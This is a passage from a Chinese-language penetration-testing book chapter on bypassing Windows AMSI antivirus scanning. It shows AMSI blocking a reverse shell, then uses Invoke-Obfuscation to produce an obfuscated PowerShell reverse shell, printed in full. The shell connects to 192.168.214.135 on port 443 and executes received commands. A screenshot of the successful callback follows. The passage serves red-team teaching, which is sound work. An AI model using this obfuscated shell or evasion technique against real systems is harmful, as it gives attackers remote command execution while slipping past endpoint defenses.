 ![图 2.4 – AMSI 阻止原始反向 Shell](img/B18964_02_04.jpg)

图 2.4 – AMSI 阻止原始反向 Shell

让我们运行 Invoke-Obfuscation 工具，选择 AST 混淆，并提供原始反向 Shell 的路径。经过混淆后，代码如下所示：

```
Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.214.135',443));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

运行上述命令得到的结果如下：

![图 2.5 – 混淆后的反向 Shell 回调](img/B18964_02_05.jpg)

图 2.5 – 混淆后的反向 Shell 回调

## 方法 3 – 内存补丁
